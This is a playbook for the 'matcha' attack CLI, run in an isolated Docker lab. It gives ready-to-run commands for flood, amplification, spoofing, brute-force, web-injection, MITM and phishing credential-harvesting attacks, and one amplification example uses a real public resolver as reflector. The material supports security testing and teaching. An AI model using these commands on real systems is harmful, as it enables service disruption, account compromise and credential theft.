# MMT-Attacker Playbook

Step-by-step attack guides for the `matcha` CLI. The primary workflow uses
the **two-container Docker setup** — one attacker container, one vulnerable
target — so attacks stay isolated and require no host configuration.

## Legal Warning ⚠️

This tool is for **EDUCATIONAL AND TESTING PURPOSES ONLY**. Users must:
- Obtain proper authorization before testing
- Use in controlled environments only
- Follow responsible disclosure practices
- Comply with all applicable laws and regulations
- Accept full responsibility for any consequences

Improper use of this tool may be illegal and result in criminal charges.

---

## Table of Contents

- [Setup: Two-Container Lab](#setup-two-container-lab)
- [Attack Flow Overview](#attack-flow-overview)
- [Network-Layer Attacks](#network-layer-attacks)
  - [SYN Flood](#syn-flood)
  - [ICMP Flood](#icmp-flood)
  - [UDP Flood](#udp-flood)
  - [ARP Spoofing](#arp-spoofing)
  - [DNS Amplification](#dns-amplification)
  - [Ping of Death](#ping-of-death)
  - [DHCP Starvation](#dhcp-starvation)
  - [MAC Flooding](#mac-flooding)
  - [VLAN Hopping](#vlan-hopping)
  - [Smurf Attack](#smurf-attack)
  - [NTP Amplification](#ntp-amplification)
  - [BGP Hijacking](#bgp-hijacking)
- [Application-Layer Attacks](#application-layer-attacks)
  - [HTTP DoS](#http-dos)
  - [HTTP Flood](#http-flood)
  - [Slowloris](#slowloris)
  - [SSH Brute Force](#ssh-brute-force)
  - [FTP Brute Force](#ftp-brute-force)
  - [RDP Brute Force](#rdp-brute-force)
  - [SQL Injection](#sql-injection)
  - [XSS](#xss)
  - [Directory Traversal](#directory-traversal)
  - [XXE](#xxe)
  - [SSL Strip](#ssl-strip)
  - [Man-in-the-Middle (MITM)](#man-in-the-middle-mitm)
  - [Credential Harvester](#credential-harvester)
- [PCAP Replay](#pcap-replay)
- [Observing the Target](#observing-the-target)
- [Ethical Considerations](#ethical-considerations)
- [Troubleshooting](#troubleshooting)

---

## Setup: Two-Container Lab

All examples in this playbook use the Docker Compose lab. This gives you a
fully isolated environment: the **attacker** container runs the `matcha` CLI,
the **target** container runs HTTP, SSH, and FTP services.

```
┌─────────────────────────────┐        ┌──────────────────────────────┐
│       attacker              │        │         target               │
│   (matcha CLI image)        │◄──────►│  HTTP :80  SSH :22  FTP :21  │
│                             │        │  (nginx + openssh + vsftpd)  │
└─────────────────────────────┘        └──────────────────────────────┘
              └─────────────── lab (bridge network) ────────────────┘
```

### Prerequisites

- [Docker](https://docs.docker.com/get-docker/) installed and running
- Docker Compose v2 (`docker compose version`)

### Start the lab

```bash
git clone https://github.com/Montimage/mmt-attacker.git
cd mmt-attacker
docker compose up --build -d
```

Verify both containers are running:

```bash
docker compose ps
```

```
NAME        IMAGE                                    STATUS    PORTS
attacker    ghcr.io/montimage/mmt-attacker:latest   running
target      mmt-attacker-target                     running   0.0.0.0:8080->80/tcp, ...
```

Verify the target is reachable:

```bash
# From the host
curl http://localhost:8080

# From inside the attacker container
docker compose exec attacker sh -c "wget -qO- http://target"
```

### Running attacks

All attacks use `docker compose exec attacker matcha <attack>`. The target
container's hostname on the shared network is `target`.

```bash
# General pattern
docker compose exec attacker matcha <attack> [options]

# List all available attacks
docker compose exec attacker matcha list

# Get help for a specific attack
docker compose exec attacker matcha info syn-flood
```

### Tear down

```bash
docker compose down
```

> **Note:** To run attacks without Docker, install the CLI directly:
> `pip install mmt-attacker` or `pip install -e .`
> Then replace `docker compose exec attacker matcha` with `matcha` in every
> command below. Root/sudo is required for raw-socket attacks.

---

## Attack Flow Overview


```mermaid
graph TB
    A[Select Attack] --> B[Configure Parameters]
    B --> C[docker compose exec attacker matcha &lt;attack&gt;]
    C --> D[Validate inputs]
    D --> E[Execute attack]
    E --> F[Structured log output]
    F --> G{Observe target}
    G -->|Logs / netstat| H[Analyse results]
    G -->|Unexpected| I[Adjust parameters]
    I --> B
```

---

## Network-Layer Attacks

### SYN Flood

Exploits the TCP three-way handshake. The attacker sends SYN packets with
spoofed source addresses; the target exhausts connection resources waiting for
ACKs that never arrive.


```mermaid
graph LR
    A[Attacker] -->|SYN| T[Target]
    T -->|SYN-ACK| D1[Drop]
    A -->|SYN| T
    T -->|SYN-ACK| D2[Drop]
```

**Target services:** HTTP (:80), any open TCP port.

```bash
# Basic — flood the target's web port
docker compose exec attacker \
  matcha syn-flood \
    --target-ip target \
    --target-port 80 \
    --count 500

# With more options
docker compose exec attacker \
  matcha syn-flood \
    --target-ip target \
    --target-port 80 \
    --count 1000 \
    --interface eth0
```

**Key parameters:**
- `--target-ip` — target IP or hostname
- `--target-port` — TCP port
- `--count` — number of SYN packets to send
- `--interface` — network interface (default: auto)

**Safety:** start with low counts; monitor target with `netstat -ant`.

---

### ICMP Flood

Overwhelms a target with ICMP Echo Request packets, consuming bandwidth and
CPU as the target generates replies.


```mermaid
graph LR
    A[Attacker] -->|ICMP Echo Request| T[Target]
    T -->|ICMP Echo Reply| A
```

```bash
docker compose exec attacker \
  matcha icmp-flood \
    --target-ip target \
    --count 1000
```

**Key parameters:**
- `--target-ip` — target IP or hostname
- `--count` — number of packets

---

### UDP Flood

Sends high-volume UDP packets to random or specific ports, consuming bandwidth
and forcing the target to issue ICMP Port Unreachable responses.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant T as Target
    loop Flood
        A->>T: UDP Packet (Random Port)
        T->>A: ICMP Port Unreachable
    end
```

```bash
docker compose exec attacker \
  matcha udp-flood \
    --target-ip target \
    --target-port 80 \
    --count 500
```

**Key parameters:**
- `--target-ip` — target IP or hostname
- `--target-port` — UDP port
- `--count` — number of packets

---

### ARP Spoofing

Sends falsified ARP messages to associate the attacker's MAC with another
host's IP, redirecting traffic through the attacker.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant V as Victim
    participant G as Gateway
    A->>V: Fake ARP: "I am Gateway"
    A->>G: Fake ARP: "I am Victim"
    V->>A: Traffic meant for Gateway
    A->>G: Forward traffic
```

```bash
# Replace IPs with addresses from the lab network
docker compose exec attacker \
  matcha arp-spoof \
    --target-ip <victim-ip> \
    --gateway-ip <gateway-ip>
```

**Key parameters:**
- `--target-ip` — victim IP
- `--gateway-ip` — gateway IP to impersonate
- `--interface` — network interface

**Safety:** always ensure ARP tables are restored after the test.

---

### DNS Amplification

Sends DNS queries with a spoofed source IP (the victim's address) to open
resolvers. Responses are much larger than queries, amplifying traffic toward
the victim.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant D as DNS Servers
    participant V as Victim
    Note over A,D: Small query, spoofed source = victim
    A->>D: ANY example.com (50 bytes)
    D->>V: Full DNS record set (4000+ bytes)
    Note over V: Amplification ~80x
```

```bash
docker compose exec attacker \
  matcha dns-amplification \
    --target-ip <victim-ip> \
    --dns-server 8.8.8.8 \
    --query-domain example.com
```

**Key parameters:**
- `--target-ip` — victim IP (receives amplified traffic)
- `--dns-server` — reflector DNS server
- `--query-domain` — domain to query

> Use only in fully isolated lab networks. Never point at real infrastructure.

---

### Ping of Death

Sends oversized ICMP packets (> 65535 bytes fragmented) that cause buffer
overflows on vulnerable systems during reassembly.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant T as Target
    A->>T: ICMP Fragment 1
    A->>T: ICMP Fragment 2
    A->>T: ICMP Fragment N
    Note over T: Buffer overflow on reassembly
```

```bash
docker compose exec attacker \
  matcha ping-of-death \
    --target-ip target \
    --count 10
```

**Key parameters:**
- `--target-ip` — target IP or hostname
- `--count` — number of oversized packets

---

### DHCP Starvation

Exhausts the DHCP server's IP pool by sending DISCOVER requests with randomly
generated MAC addresses.


```mermaid
sequenceDiagram
    loop Multiple fake MACs
        A->>D: DHCP DISCOVER (Random MAC)
        D->>A: DHCP OFFER
        A->>D: DHCP REQUEST
        D->>A: DHCP ACK
        Note over D: IP Pool Shrinks
    end
```

```bash
docker compose exec attacker \
  matcha dhcp-starvation \
    --interface eth0 \
    --count 200
```

**Key parameters:**
- `--interface` — network interface
- `--count` — number of spoofed requests

**Safety:** can disrupt legitimate DHCP clients on the same segment.

---

### MAC Flooding

Overwhelms a switch's MAC address table with random source MACs, forcing
fail-open mode where the switch broadcasts all frames.


```mermaid
graph TB
    A[Attacker] -->|Frame: Random MAC 1| S[Switch]
    A -->|Frame: Random MAC 2| S
    A -->|Frame: Random MAC N| S
    Note["MAC table full → fail-open"] --> S
```

```bash
docker compose exec attacker \
  matcha mac-flooding \
    --interface eth0 \
    --count 5000
```

**Key parameters:**
- `--interface` — network interface
- `--count` — number of frames

---

### VLAN Hopping

Uses double-tagged frames to bypass VLAN isolation and reach a separate VLAN.


```mermaid
sequenceDiagram
    A->>S: Frame: Outer VLAN 10, Inner VLAN 20
    Note over S: Strip outer tag
    S->>T: Frame forwarded to VLAN 20
```

```bash
docker compose exec attacker \
  matcha vlan-hopping \
    --interface eth0 \
    --outer-vlan 10 \
    --inner-vlan 20 \
    --target-ip <target-ip>
```

**Key parameters:**
- `--interface` — network interface
- `--outer-vlan` / `--inner-vlan` — VLAN IDs
- `--target-ip` — target on the inner VLAN

---

### Smurf Attack

Amplification attack: ICMP broadcast to a network with a spoofed source of the
victim's IP causes all hosts to reply to the victim.


```mermaid
sequenceDiagram
    A->>B: ICMP Echo (Spoofed Source: Victim)
    B->>V: ICMP Replies from All Hosts
    Note over V: Bandwidth exhaustion
```

```bash
docker compose exec attacker \
  matcha smurf-attack \
    --victim <victim-ip> \
    --broadcast <broadcast-ip> \
    --count 100
```

**Key parameters:**
- `--victim` — victim IP
- `--broadcast` — broadcast address of the network

---

### NTP Amplification

Exploits NTP `monlist` to return large responses to a spoofed victim IP,
achieving ~500× amplification.


```mermaid
sequenceDiagram
    A->>N: NTP monlist (Spoofed: Victim)
    N->>V: Large NTP Response (~500x)
```

```bash
docker compose exec attacker \
  matcha ntp-amplification \
    --victim <victim-ip> \
    --ntp-servers "1.2.3.4,5.6.7.8" \
    --count 50
```

**Key parameters:**
- `--victim` — victim IP
- `--ntp-servers` — comma-separated NTP reflector list
- `--count` — number of queries

---

### BGP Hijacking

Educational simulation of BGP route announcement manipulation.

```bash
docker compose exec attacker \
  matcha bgp-hijacking \
    --prefix 1.2.3.0/24 \
    --as-number 65000
```

> This is a simulation — no real routing infrastructure is modified.

---

## Application-Layer Attacks

### HTTP DoS

Floods a web server with high-volume HTTP requests using multiple threads.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant W as Web Server
    loop Multiple Threads
        A->>+W: HTTP Request
        W-->>-A: HTTP Response
    end
```

```bash
# Basic GET flood against the target's nginx
docker compose exec attacker \
  matcha http-dos \
    --target-url http://target \
    --threads 10

# With more control
docker compose exec attacker \
  matcha http-dos \
    --target-url http://target \
    --threads 20 \
    --timeout 5
```

**Key parameters:**
- `--target-url` — full URL including scheme
- `--threads` — parallel request threads
- `--timeout` — per-request timeout (seconds)

Watch the target's nginx log while this runs:

```bash
docker compose exec target tail -f /var/log/nginx/access.log
```

---

### HTTP Flood

Similar to HTTP DoS but focuses on connection-level flooding.

```bash
docker compose exec attacker \
  matcha http-flood \
    --url http://target \
    --count 1000 \
    --threads 10
```

**Key parameters:**
- `--url` — target URL
- `--count` — total requests
- `--threads` — parallel threads

---

### Slowloris

Maintains many partial HTTP connections to exhaust the server's connection pool
without generating high bandwidth.


```mermaid
graph TB
    A[Attacker] -->|Partial HTTP Request 1| S[Server]
    A -->|Partial HTTP Request 2| S
    A -->|Keep-Alive Headers...| S
    Note["Server connection pool exhausted"] --> S
```

```bash
docker compose exec attacker \
  matcha slowloris \
    --target-url http://target \
    --connections 50
```

**Key parameters:**
- `--target-url` — target URL
- `--connections` — number of slow connections to maintain

---

### SSH Brute Force

Systematically tries username/password combinations against an SSH server.
The target container exposes SSH on port 22 with `demo:password123`.


```mermaid
graph TB
    Start --> Load[Load Wordlist]
    Load --> Try[Try Credentials]
    Try --> Check{Success?}
    Check -->|No| Next[Next Password]
    Check -->|Yes| Log[Log Success]
    Next --> Try
```

```bash
# Create a short wordlist inside the attacker container
docker compose exec attacker sh -c \
  "printf 'admin\nroot\npassword123\n' > /tmp/wordlist.txt"

# Run the attack
docker compose exec attacker \
  matcha ssh-brute-force \
    --target-ip target \
    --username demo \
    --wordlist /tmp/wordlist.txt
```

**Key parameters:**
- `--target-ip` — target IP or hostname
- `--username` — username to test
- `--wordlist` — path to password list
- `--port` — SSH port (default: 22)

**Target credentials (intentionally weak):**
- `demo` / `password123`
- `root` / `root123`

---

### FTP Brute Force

Attempts FTP login with a wordlist. The target runs vsftpd with anonymous
access enabled.

```bash
# Reuse the wordlist created above or create a new one
docker compose exec attacker sh -c \
  "printf 'anonymous\nftp\npassword\n' > /tmp/ftp_words.txt"

docker compose exec attacker \
  matcha ftp-brute-force \
    --target-ip target \
    --username anonymous \
    --wordlist /tmp/ftp_words.txt
```

**Key parameters:**
- `--target-ip` — FTP server host
- `--username` — username to test
- `--wordlist` — password list path
- `--port` — FTP port (default: 21)

---

### RDP Brute Force

Educational simulation of RDP credential brute-force (no real RDP library
required).

```bash
docker compose exec attacker \
  matcha rdp-brute-force \
    --host <target-ip> \
    --username administrator \
    --passwords /tmp/wordlist.txt
```

> The target container does not run RDP. Use this against a host that does in
> your authorized lab environment.

---

### SQL Injection

Tests web application endpoints for SQL injection vulnerabilities by probing
input parameters with various payloads.


```mermaid
graph TB
    Start --> Points[Identify Injection Points]
    Points --> Test[Inject Payload]
    Test --> Detect{Vulnerable?}
    Detect -->|Yes| Verify[Verify & Report]
    Detect -->|No| Next[Next Payload]
    Next --> Test
```

```bash
docker compose exec attacker \
  matcha sql-injection \
    --target http://target/login.php \
    --parameter username \
    --dbms mysql
```

**Key parameters:**
- `--target` — URL of the vulnerable endpoint
- `--parameter` — parameter name to test
- `--dbms` — database type (`mysql`, `postgresql`, etc.)

---

### XSS

Tests web application inputs for reflected or stored Cross-Site Scripting
vulnerabilities.

```bash
docker compose exec attacker \
  matcha xss \
    --url http://target/search \
    --param q
```

**Key parameters:**
- `--url` — target URL
- `--param` — parameter to inject into

---

### Directory Traversal

Probes URL parameters for path traversal vulnerabilities (`../` sequences) to
read files outside the web root.

```bash
docker compose exec attacker \
  matcha directory-traversal \
    --url http://target/view \
    --param file
```

**Key parameters:**
- `--url` — target URL
- `--param` — parameter to test

---

### XXE

Injects malicious XML external entity declarations to test XML parsers for
file-read or SSRF vulnerabilities.


```mermaid
sequenceDiagram
    A->>W: XML with External Entity
    W->>F: Parse & Load External File
    F->>W: File Contents
    W->>A: Response with File Data
```

```bash
docker compose exec attacker \
  matcha xxe \
    --url http://target/api/xml
```

---

### SSL Strip

Downgrades HTTPS connections to HTTP by intercepting traffic at the network
layer (educational simulation).

```bash
docker compose exec attacker \
  matcha ssl-strip \
    --interface eth0
```

> Requires a MITM position on the network. Modern HSTS defeats this attack.

---

### Man-in-the-Middle (MITM)

Performs bidirectional ARP poisoning to intercept traffic between two hosts,
with optional packet capture.


```mermaid
sequenceDiagram
    A->>V: Poisoned ARP (Gateway MAC = Attacker)
    A->>G: Poisoned ARP (Victim MAC = Attacker)
    V->>A: Traffic meant for Gateway
    A->>G: Forward traffic
    G->>A: Response
    A->>V: Forward response
```

```bash
docker compose exec attacker \
  matcha mitm \
    --target <victim-ip> \
    --gateway <gateway-ip> \
    --interface eth0 \
    --capture /tmp/captured.pcap
```

**Key parameters:**
- `--target` — victim IP
- `--gateway` — gateway IP
- `--interface` — network interface
- `--capture` — optional PCAP output path

---

### Credential Harvester

Clones a login page and captures submitted credentials (phishing simulation).


```mermaid
graph TB
    Start --> Clone[Clone Target Site]
    Clone --> Listen[Listen for Connections]
    Listen --> Process{Request type?}
    Process -->|Form submit| Collect[Collect Credentials]
    Process -->|Other| Redirect[Redirect to Real Site]
    Collect --> Log[Log to File]
```

```bash
docker compose exec attacker \
  matcha credential-harvester \
    --template login-form \
    --port 8080
```

**Key parameters:**
- `--template` — predefined template or `--target-url` to clone a real page
- `--port` — port to serve the phishing page on
- `--log-file` — where to save captured credentials

---

## PCAP Replay

Replays previously captured network traffic from a `.pcap` file, with control
over timing and interface.


```mermaid
sequenceDiagram
    participant A as Attacker
    participant N as Network
    participant T as Target
    A->>A: Load PCAP File
    loop Replay Sequence
        A->>N: Send Packet
        N->>T: Packet Arrives
    end
```

```bash
# Mount a local pcap file into the container, then replay it
docker run --rm \
  --cap-add NET_ADMIN --cap-add NET_RAW \
  --network mmt-attacker_lab \
  -v /path/to/capture.pcap:/pcaps/capture.pcap \
  ghcr.io/montimage/mmt-attacker:latest \
  pcap-replay \
    --pcap-file /pcaps/capture.pcap \
    --interface eth0 \
    --speed 2.0

# Or if the pcap is already inside the attacker container
docker compose exec attacker \
  matcha pcap-replay \
    --pcap-file /pcaps/capture.pcap \
    --interface eth0
```

**Key parameters:**
- `--pcap-file` — path to the `.pcap` file
- `--interface` — network interface to send on
- `--speed` — playback speed multiplier (1.0 = real-time, 2.0 = double speed)

---

## Observing the Target

While attacks run, open a second terminal to inspect the target container:

```bash
# Live nginx access log (HTTP DoS, HTTP Flood, Slowloris)
docker compose exec target tail -f /var/log/nginx/access.log

# SSH auth log (SSH Brute Force)
docker compose exec target tail -f /var/log/auth.log

# Active network connections
docker compose exec target netstat -ant

# Drop into a shell on the target
docker compose exec target bash
```

---

## Ethical Considerations

1. **Authorization** — obtain explicit written permission before any test.
2. **Controlled environments** — use only in isolated lab networks.
3. **Data protection** — handle captured credentials and PCAPs securely;
   delete after testing.
4. **Responsible disclosure** — report findings to the relevant security team
   and give time to fix before public disclosure.
5. **Legal compliance** — follow local laws, GDPR, and applicable regulations.

---

## Troubleshooting

| Symptom | Likely cause | Fix |
|---|---|---|
| `Operation not permitted` | Missing `NET_ADMIN`/`NET_RAW` capabilities | Ensure `cap_add` is set in `docker-compose.yml` |
| `Cannot find target` | DNS not resolving `target` | Verify both containers are on the `lab` network (`docker compose ps`) |
| Attack exits immediately | Invalid parameter | Run `matcha info <attack>` to check required flags |
| No output from attack | Silent failure | Add `--verbose` if supported, check `docker compose logs attacker` |
| Target not responding | Container not started | Run `docker compose up -d` and check `docker compose ps` |
| `Address already in use` | Port conflict on host | Change host port mapping in `docker-compose.yml` |

---

## License

Apache 2.0 — see [LICENSE](../LICENSE).

## Contact

**Montimage**
- Website: https://www.montimage.eu
- Email: contact@montimage.eu
- Technical support: developer@montimage.eu
- Issues: https://github.com/montimage/mmt-attacker/issues
